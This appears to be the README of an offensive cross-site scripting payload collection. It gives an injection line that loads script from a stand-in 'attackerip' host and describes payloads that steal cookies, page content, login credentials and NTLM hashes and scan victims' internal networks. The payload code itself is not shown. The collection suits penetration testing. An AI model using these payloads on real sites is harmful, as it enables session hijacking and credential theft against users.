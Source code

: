 # xss_payloads

Payloads for practical exploitation of cross site scripting.

## Usage

1. Find XSS vuln in your app
2. Get PoC exploit: alert(1) etc
3. Host these payloads somewhere
4. Use vuln to pull one of these payloads into the app `<script src="http://attackerip/file.js"></script>`
5. Profit

## js vs php files

Some of the files are plain JavaScript .js files, others are PHP scripts which serve JavaScript when rendered in order to do some more complex stuff. Make sure you have a PHP interpreter running on your web server of choice to get these to work `</obvious>`

## Common Problems

* You can't serve these over HTTP if your app is running on HTTPS. You'll need to serve them over HTTPS
* If you're running these over HTTPS for actual exploitation rather than a PoC, you'll need a proper trusted TLS cert (Let's Encrypt CA, for example) otherwise victim's browsers won't fetch the files at all. If it's for a PoC you can just temporarily trust your self signed cert.
* Hit F12 and view the debug console for any information about why a particular script might not work

## Payloads

### apache_httponly_bypass.js

Uses an excessively large cookie to exploit CVE-2012-0053 and extract HTTPOnly cookie values from the response.

### contentstealer.php

Steal the content of the current page, a specific element or another page within the same origin as the exploited web app.

### cookiestealer.php

Steal cookies from the site.

### formsubmitter.php

Grab a page from somewhere within the same origin, fill in a form on it and then submit that form.

### local_network_scan.php

Get the internal IP address of a victim and then have them do a TCP port scan of common ports on the /24 of that internal IP address.

### loginpage.php

Pop up a login page which sends the entered credentials back to this URL.

### recon.php ###

Passes back information about where it was executed:

 - page URL
 - script URL
 - user's IP address
 - Page content
 - Any non HttpOnly cookies present
 - User agent string

And then logs it all into either a file or a database. Great for when a collaborator alert is generated asynchronously and you need more info about where execution is occuring.

### unc_hashstealer.php

Fire up Responder.py on the same host as this script and then inject this payload. All links on the injected page will be turned into UNC paths to the same host.
